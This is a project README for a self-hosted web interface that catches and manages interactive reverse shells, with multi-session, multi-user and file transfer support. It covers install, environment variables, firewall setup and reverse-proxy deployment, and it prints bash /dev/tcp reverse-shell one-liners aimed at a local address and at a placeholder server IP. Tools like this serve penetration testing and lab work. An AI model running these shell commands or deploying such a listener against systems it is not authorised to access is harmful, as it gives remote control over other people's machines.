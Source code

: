 # Reverse Shell Online

Fully interactive TTY Reverse Shell on web interface

- Can handle multiple session
- Multi-user support
- Download/Upload feature

# Demo

<img src="example.gif">

# Install locally

Install dependendies: ```npm i```

Start project with ```npm start```

ENV Vars:
```
PORT_HTTP=3000
PORT_TCP=1337

Example to start server on HTTP: 8080 & TCP: 6666
PORT_HTTP=8080 PORT_TCP=6666 node index.js
```

Access HTTP server: ```http://localhost:8080```

Example command to spawn a shell:

```sh -i >& /dev/tcp/127.0.0.1/6666 0>&```

# Deploy on a server

## Simple install

```sh
git clone https://github.com/Eteckq/simplershell.git;
npm i;
PORT_HTTP=5555 PORT_TCP=6666 SERVER_ADDRESS=YOUR_SERVER_ADDRESS node index.js
```

Env var ```SERVER_ADDRESS``` is facultative

Then, you need to allow configured port (5555 & 6666 here)

(with ufw)
```
sudo ufw allow 5555,6666
```

And access it with http://YOUR_SERVER_IP:5555

You can test your deployement by spawning a shell:
```
sh -i >& /dev/tcp/YOUR_SERVER_IP/6666 0>&
```

## Behind a reverse proxy

Steps are basically the same, you just need to enable WebSockets for HTTP.
